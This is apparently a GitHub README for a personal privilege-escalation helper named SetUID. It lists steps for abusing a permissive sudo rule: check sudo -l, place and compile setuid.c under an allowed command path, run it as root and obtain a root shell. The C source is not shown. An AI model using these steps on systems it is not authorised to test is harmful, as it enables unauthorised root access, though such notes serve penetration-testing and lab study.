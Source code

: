 # SetUID
My personal guide to get privesc

# How to Use
Run ```sudo -l```
Read which commands can be executed by root (for example ```test/nameFile```)
Run ```mkdir test```
Move *setuid.c* in *test* 
```mv setuid.c test```
Compile script 
```gcc setuid.c -o nameFile```
Run as root
```sudo -u root nameFile```
Get Shell
